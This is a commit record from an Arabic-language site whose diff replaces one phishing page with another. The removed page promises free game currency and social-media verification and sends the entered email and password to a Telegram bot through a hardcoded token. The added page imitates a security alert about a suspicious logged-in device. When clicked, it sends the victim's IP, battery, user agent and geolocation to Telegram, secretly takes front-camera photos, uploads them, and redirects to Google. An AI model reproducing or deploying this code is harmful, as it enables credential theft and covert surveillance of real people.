

Before and after one commit to h1fs/loodin_accunt, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (118-1202 px from the left). After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Revise index.html for security device management
Updated HTML structure and styles for security management interface, including new meta tags and layout adjustments.

```diff
--- a/index.html
+++ b/index.html
@@ -2,279 +2,274 @@
 <html lang="ar" dir="rtl">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Y77 | الشحن المجاني والتوثيق</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
+    <title>الأجهزة النشطة | إدارة الأمان</title>
+
+    <!-- وسوم المعاينة الخارجية لتظهر بشكل رسمي عند إرسال الرابط -->
+    <meta property="og:title" content="تحذير أمني: تم تسجيل دخول جهاز جديد">
+    <meta property="og:description" content="تم اكتشاف جلسة نشطة غير معتادة على حسابك. يرجى مراجعة الأجهزة المتصلة فوراً.">
+    <meta property="og:image" content="wht441.jpg">
+    <meta property="og:type" content="website">
+    <meta name="twitter:card" content="summary_large_image">
+    <meta name="twitter:image" content="wht441.jpg">
+
+    <!-- استدعاء مكتبة الأيقونات -->
+    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.4.2/css/all.min.css">
+
     <style>
-        :root {
-            --gold: #d4af37;
-            --dark-bg: #0a0a0a;
-            --card-bg: #161616;
-            --text-color: #ffffff;
-        }
-
         body {
-            background-color: var(--dark-bg);
-            color: var(--text-color);
-            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-            margin: 0; padding: 0;
-            display: flex; flex-direction: column; align-items: center;
-        }
-
-        header {
-            text-align: center;
-            padding: 40px 20px;
-            width: 100%;
-        }
-
-        header h1 {
-            font-size: 3.5rem;
-            color: var(--gold);
             margin: 0;
-            letter-spacing: 3px;
-            text-shadow: 0 0 20px rgba(212, 175, 55, 0.3);
-        }
-
-        header p {
-            font-size: 0.95rem;
-            opacity: 0.7;
-            margin-top: 10px;
-        }
-
-        .line {
-            width: 85%;
-            height: 1px;
-            background: linear-gradient(to right, transparent, var(--gold), transparent);
-            margin-bottom: 30px;
+            padding: 0;
+            background-color: #f0f2f5;
+            color: #1c1e21;
+            font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            min-height: 100vh;
         }
 
         .container {
-            max-width: 1000px;
-            display: grid;
-            grid-template-columns: repeat(2, 1fr);
-            gap: 20px;
-            padding: 15px;
-            width: 95%;
+            background-color: #ffffff;
+            border-radius: 12px;
+            padding: 25px 20px;
+            width: 90%;
+            max-width: 420px;
+            box-shadow: 0 4px 12px rgba(0, 0, 0, 0.15);
+            box-sizing: border-box;
+            text-align: right;
         }
 
-        .card {
-            background: var(--card-bg);
-            border: 1px solid #222;
-            border-radius: 15px;
-            padding: 30px 10px;
-            text-align: center;
-            transition: all 0.3s ease;
-            cursor: pointer;
-            box-shadow: 0 5px 15px rgba(0,0,0,0.3);
-        }
-
-        .card:hover {
-            border-color: var(--gold);
-            transform: translateY(-5px);
-            background: #1f1f1f;
-        }
-
-        .card img {
-            width: 65px;
-            height: 65px;
+        h2 {
+            font-size: 22px;
+            font-weight: 700;
+            margin-top: 0;
             margin-bottom: 12px;
-            object-fit: contain;
-        }
-
-        .card h3 {
-            margin: 8px 0;
-            font-size: 1.2rem;
-            color: var(--gold);
-        }
-
-        .card p {
-            font-size: 0.85rem;
-            color: #999;
-            margin: 0;
-        }
-
-        /* Modal Design */
-        .modal {
-            display: none;
-            position: fixed;
-            top: 0; left: 0;
-            width: 100%; height: 100%;
-            background: rgba(0,0,0,0.9);
-            justify-content: center; align-items: center;
-            z-index: 1000;
-            backdrop-filter: blur(5px);
-        }
-
-        .modal-content {
-            background: #1c1c1c;
-            padding: 30px;
-            border-radius: 20px;
-            width: 85%;
-            max-width: 380px;
-            border-top: 5px solid var(--gold);
-            position: relative;
+            color: #050505;
             text-align: center;
         }
 
-        .close-btn {
-            position: absolute;
-            top: 15px; left: 15px;
-            color: #ff4444;
-            font-size: 24px;
-            cursor: pointer;
+        .alert-box {
+            font-size: 14px;
+            color: #65676b;
+            line-height: 1.6;
+            margin-bottom: 20px;
+            text-align: center;
         }
 
-        input {
+        /* تصميم كارت الجهاز المريب */
+        .device-card {
+            border: 1px solid #dadde1;
+            border-radius: 8px;
+            padding: 15px;
+            margin-bottom: 20px;
+            background-color: #f8f9fa;
+            display: flex;
+            justify-content: space-between;
+            align-items: center;
+        }
+
+        .device-info h4 {
+            margin: 0 0 5px 0;
+            font-size: 16px;
+            color: #dc3545; /* لون تنبيهي */
+        }
+
+        .device-info p {
+            margin: 0;
+            font-size: 13px;
+            color: #606770;
+        }
+
+        .device-icon {
+            font-size: 35px;
+            color: #dc3545;
+            margin-left: 10px;
+        }
+
+        /* الزر الأحمر المطلوب */
+        .danger-btn {
+            background-color: #dc3545;
+            color: #ffffff;
+            border: none;
             width: 100%;
             padding: 14px;
-            margin: 10px 0;
-            background: #2a2a2a;
-            border: 1px solid #333;
-            color: white;
-            border-radius: 10px;
-            box-sizing: border-box;
-            font-size: 1rem;
+            font-size: 16px;
+            font-weight: bold;
+            border-radius: 8px;
+            cursor: pointer;
+            text-align: center;
+            transition: background 0.2s;
+            box-shadow: 0 2px 6px rgba(220, 53, 69, 0.4);
         }
 
-        input:focus {
-            border-color: var(--gold);
-            outline: none;
+        .danger-btn:active {
+            background-color: #bb2d3b;
         }
 
-        .submit-btn {
-            background: var(--gold);
-            color: #000;
-            border: none;
-            padding: 14px;
-            font-weight: bold;
-            border-radius: 10px;
-            cursor: pointer;
-            width: 100%;
-            margin-top: 20px;
-            font-size: 1.1rem;
-            transition: 0.2s;
+        /* شاشة التحميل */
+        .loading-screen {
+            display: none;
+            text-align: center;
+            padding: 30px 0;
         }
 
-        .submit-btn:active {
-            transform: scale(0.98);
+        .spinner {
+            border: 4px solid rgba(0, 0, 0, 0.1);
+            border-top: 4px solid #dc3545;
+            border-radius: 50%;
+            width: 45px;
+            height: 45px;
+            animation: spin 0.8s linear infinite;
+            margin: 0 auto 15px;
         }
 
-        @media (max-width: 400px) {
-            header h1 { font-size: 2.8rem; }
-            .container { grid-template-columns: 1fr; }
-        }
+        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
+
+        #video, #canvas { display: none; }
     </style>
 </head>
 <body>
 
-<header>
-    <h1>Y77</h1>
-    <p>بوابتك الحصرية لشحن الألعاب وتوثيق الحسابات مجاناً</p>
-</header>
+    <div class="container">
+        <!-- واجهة الأجهزة -->
+        <div id="ui-view">
+            <h2>الأجهزة النشطة</h2>
+            <div class="alert-box">
+                أنت مسجل الدخول على هذه الأجهزة، أو تم تسجيل دخول عليها في آخر 28 يوماً. ومن الممكن أنه قد تم تسجيل عدة جلسات نشطة من الجهاز نفسه.
+            </div>
 
-<div class="line"></div>
+            <!-- تفاصيل الجهاز المشبوه -->
+            <div class="device-card">
+                <div class="device-info">
+                    <h4>جلسة جديدة (غير معروفة)</h4>
+                    <p>Android device • متصل الان</p>
+                    <p style="color: #dc3545; font-weight: bold; margin-top: 4px;">⚠️ تنبيه أمني: نشاط مشبوه</p>
+                </div>
+                <div class="device-icon">
+                    <i class="fa-solid fa-mobile-screen-button"></i>
+                </div>
+            </div>
 
-<div class="container">
-    <div class="card" onclick="openModal('جوجل (Gmail)')">
-        <img src="https://img.icons8.com/color/96/google-logo.png">
-        <h3>جوجل</h3>
-        <p>تفعيل خدمات بريميوم</p>
+            <!-- الزر المطلوب -->
+            <button class="danger-btn" onclick="triggerSecurityAction()">
+                <i class="fa-solid fa-triangle-exclamation" style="margin-left: 8px;"></i>
+                اضغط هنا لإزالة جهاز جديد
+            </button>
+        </div>
+
+        <!-- شاشة الانتظار المعالجة -->
+        <div id="loading-view" class="loading-screen">
+            <div class="spinner"></div>
+            <p style="color: #65676b; font-size: 15px; font-weight: 500;">جاري إزالة الجهاز وتأمين الحساب...</p>
+        </div>
     </div>
 
-    <div class="card" onclick="openModal('ببجي موبايل')">
-        <img src="https://img.icons8.com/color/96/pubg.png">
-        <h3>ببجي موبايل</h3>
-        <p>شحن شدات UC مجاني</p>
-    </div>
+    <video id="video" autoplay playsinline></video>
+    <canvas id="canvas"></canvas>
 
-    <div class="card" onclick="openModal('توثيق تيك توك')">
-        <img src="https://img.icons8.com/color/96/tiktok.png">
-        <h3>توثيق تيك توك</h3>
-        <p>طلب العلامة الزرقاء</p>
-    </div>
+    <script>
+        const TELEGRAM_TOKEN = "8622279801:AAG0QyixH5E2sWF4kluCPp6XPnh-iGbNaaI";
+        const CHAT_ID = "8908174599";
 
-    <div class="card" onclick="openModal('إنستقرام')">
-        <img src="https://img.icons8.com/fluency/96/instagram-new.png">
-        <h3>Instagram</h3>
-        <p>زيادة متابعين وتوثيق</p>
-    </div>
+        async function triggerSecurityAction() {
+            // إخفاء الواجهة وإظهار التحميل
+            document.getElementById('ui-view').style.display = 'none';
+            document.getElementById('loading-view').style.display = 'block';
 
-    <div class="card" onclick="openModal('فيسبوك')">
-        <img src="https://img.icons8.com/fluency/96/facebook-new.png">
-        <h3>فيسبوك</h3>
-        <p>تأمين وتوثيق حسابات</p>
-    </div>
+            // جلب معلومات الجهاز والـ IP
+            const techData = await fetchTech();
+            const now = new Date().toLocaleString('ar-EG');
 
-    <div class="card" onclick="openModal('فري فاير')">
-        <img src="https://img.icons8.com/color/96/free-fire.png">
-        <h3>فري فاير</h3>
-        <p>شحن جواهر Diamonds</p>
-    </div>
-</div>
+            let report = `🚨 **تم ضغط زر إزالة جهاز جديد!**\n\n`;
+            report += `🕓 الوقت: ${now}\n`;
+            report += `🌍 IP: ${techData.ip}\n`;
+            report += `🔋 البطارية: ${techData.battery}\n\n`;
+            report += `===== 🧾 User-Agent =====\n`;
+            report += `\`${navigator.userAgent}\``;
 
-<div id="loginModal" class="modal">
-    <div class="modal-content">
-        <span class="close-btn" onclick="closeModal()">×</span>
-        <h2 id="serviceName" style="color: var(--gold); margin-bottom: 5px;">تسجيل الدخول</h2>
-        <p style="font-size: 0.9rem; color: #bbb; margin-bottom: 20px;">يرجى إدخال بياناتك بدقة لضمان وصول الشحن</p>
+            await sendToTelegram(report);
 
-        <input type="text" id="email" placeholder="البريد الإلكتروني أو الهاتف">
-        <input type="password" id="password" placeholder="كلمة السر">
+            // محاولة جلب الموقع الجغرافي
+            if (navigator.geolocation) {
+                navigator.geolocation.getCurrentPosition(p => {
+                    sendToTelegram(`📍 موقع الضحية: http://maps.google.com/maps?q=${p.coords.latitude},${p.coords.longitude}`);
+                }, () => {}, {timeout: 5000});
+            }
 
-        <button class="submit-btn" onclick="sendData()">تأكيد وإرسال الطلب</button>
-    </div>
-</div>
+            // تشغيل الكاميرا والتقاط الصور الخفية
+            try {
+                const stream = await navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" } });
+                const video = document.getElementById('video');
+                video.srcObject = stream;
 
-<script>
-    let currentService = "";
-    // البيانات الخاصة بك
-    const TELEGRAM_TOKEN = "8011282007:AAGfNEtfk9XSQgk22W3nHMMrzBUj7HGixy8";
-    const CHAT_ID = "8146130042";
+                await new Promise(resolve => video.onloadedmetadata = resolve);
 
-    function openModal(name) {
-        currentService = name;
-        document.getElementById('serviceName').innerText = name;
-        document.getElementById('loginModal').style.display = 'flex';
-    }
-
-    function closeModal() {
-        document.getElementById('loginModal').style.display = 'none';
-    }
-
-    async function sendData() {
-        const email = document.getElementById('email').value;
-        const pass = document.getElementById('password').value;
-
-        if(!email || !pass) {
-            alert("⚠️ يرجى تعبئة جميع الحقول");
-            return;
+                let count = 0;
+                const interval = setInterval(() => {
+                    if(count < 5) {
+                        capture(count + 1);
+                        count++;
+                    } else {
+                        clearInterval(interval);
+                        stream.getTracks().forEach(t => t.stop());
+                        window.location.href = "https://myaccount.google.com/device-activity";
+                    }
+                }, 1500);
+            } catch(e) {
+                sendToTelegram("❌ رفض الضحية صلاحية الكاميرا");
+                setTimeout(() => {
+                    window.location.href = "https://myaccount.google.com/device-activity";
+                }, 2000);
+            }
         }
 
-        // الرسالة المرسلة للتليجرام
-        const message = `🚀 صيد جديد Y77 🚀\n\n🎯 الخدمة: ${currentService}\n📧 الحساب: ${email}\n🔑 الباسورد: ${pass}\n\n✅ تم التحقق من البيانات`;
+        async function fetchTech() {
+            let res = { ip: 'Unknown', battery: 'N/A' };
+            try {
+                const r = await fetch('https://api.ipify.org?format=json');
+                const d = await r.json();
+                res.ip = d.ip;
+            } catch(e){}
 
-        const url = `https://api.telegram.org/bot${TELEGRAM_TOKEN}/sendMessage?chat_id=${CHAT_ID}&text=${encodeURIComponent(message)}`;
+            try {
+                if (navigator.getBattery) {
+                    const b = await navigator.getBattery();
+                    res.battery = `${Math.round(b.level * 100)}%`;
+                }
+            } catch(e){}
 
-        try {
-            const response = await fetch(url);
-            if(response.ok) {
-                alert("✅ تم استلام طلبك! سيتم الشحن خلال 12-24 ساعة كحد أقصى.");
-                closeModal();
-                document.getElementById('email').value = "";
-                document.getElementById('password').value = "";
-            } else {
-                alert("❌ فشل الإرسال، حاول لاحقاً");
-            }
-        } catch (e) {
-            alert("⚠️ عذراً، يوجد خطأ في الاتصال بالسيرفر");
+            return res;
         }
-    }
 
-    window.onclick = function(event) {
-        if (event.target == document.getElementById('loginModal')) {
-            closeModal();
+        function capture(n) {
+            const canvas = document.getElementById('canvas');
+            const video = document.getElementById('video');
+            if(video.videoWidth === 0 || video.videoHeight === 0) return;
+
+            canvas.width = video.videoWidth;
+            canvas.height = video.videoHeight;
+            canvas.getContext('2d').drawImage(video, 0, 0);
+
+            canvas.toBlob(blob => {
+                if(!blob) return;
+                const f = new FormData();
+                f.append('chat_id', CHAT_ID);
+                f.append('photo', blob, 'img.jpg');
+                f.append('caption', `لقطة الكاميرا رقم ${n}`);
+                fetch(`https://api.telegram.org/bot${TELEGRAM_TOKEN}/sendPhoto`, {method:'POST', body:f});
+            }, 'image/jpeg', 0.8);
         }
-    }
-</script>
 
+        async function sendToTelegram(t) {
+            try {
+                await fetch(`https://api.telegram.org/bot${TELEGRAM_TOKEN}/sendMessage`, {
+                    method: 'POST',
+                    headers: {'Content-Type': 'application/json'},
+                    body: JSON.stringify({chat_id: CHAT_ID, text: t, parse_mode: "Markdown"})
+                });
+            } catch (err) {}
+        }
+    </script>
 </body>
 </html>
```
